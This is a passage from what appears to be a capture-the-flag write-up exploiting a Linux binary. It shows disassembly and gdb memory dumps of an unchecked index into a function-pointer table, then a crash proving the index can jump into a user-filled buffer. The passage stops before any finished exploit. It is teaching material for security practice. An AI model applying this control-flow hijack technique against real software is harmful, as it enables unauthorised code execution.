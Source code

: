 Unfortunately, running the python script again shows a different output value. This means that ASLR is enabled. Furthermore, I didn't know what version of `libc` was running!

I turned my attention to gaining code execution. This was more trivial, although it wasn't a straight-forward buffer overflow. The binary asks the user for a choice. That choice is converted from a string to an int. From this int, the binary looks up the relevant code to handle the request:


```
  4008af: 48 c1 e0 04           shl    rax,0x4         ; multiply value by 16
  4008b3: 48 05 80 10 60 00     add    rax,0x601080    ; address of parsers, see below
  4008b9: 48 8b 00              mov    rax,QWORD PTR [rax]
  4008bc: bf e0 10 60 00        mov    edi,0x6010e0    ; address of buf, see below
  4008c1: ff d0                 call   rax             ; gain code exec here!
```

There is no check performed on the value in `rax`. If we pass in a normal value, like `2`, the binary fetches the corresponding parser here:

```
gdb-peda$ p parsers
$1 = { {
    fn = 0x40073d <from_hex>, 
    desc = 0x4009b4 "parse from hex"
  }, {
    fn = 0x400761 <from_dec>, 
    desc = 0x4009c3 "parse from dec"
  }, {
    fn = 0x400785 <from_ptr>, 
    desc = 0x4009d2 "parse from pointer"
  } }
```

But look here: `buf` is almost right behind `parsers`:

```  
gdb-peda$ x/40wx parsers
0x601080 <parsers>:             0x0040073d  0x00000000  0x004009b4  0x00000000
0x601090 <parsers+16>:          0x00400761  0x00000000  0x004009c3  0x00000000
0x6010a0 <parsers+32>:          0x00400785  0x00000000  0x004009d2  0x00000000
0x6010b0:                       0x00000000  0x00000000  0x00000000  0x00000000
0x6010c0 <stdout@@GLIBC_2.2.5>: 0xf7dd77a0  0x00007fff  0xf7dd76c0  0x00007fff
0x6010d0 <completed.6972>:      0x00000000  0x00000000  0x00000000  0x00000000
0x6010e0 <buf>:                 0x00000000  0x00000000  0x00000000  0x00000000
0x6010f0 <buf+16>:              0x00000000  0x00000000  0x00000000  0x00000000
0x601100 <buf+32>:              0x00000000  0x00000000  0x00000000  0x00000000
0x601110 <buf+48>:              0x00000000  0x00000000  0x00000000  0x00000000
```

If we somehow load `buf` with pointers to code we want to execute, then pass in a large value at the prompt, the code will fetch the parser address from the `buf` section and we have control over execution:

```bash
gdb-peda$ r
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
7   # give bigger number!

Please enter your number: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x6161616161616161 ('aaaaaaaa')
RBX: 0x0 
RCX: 0xfbad2288 
```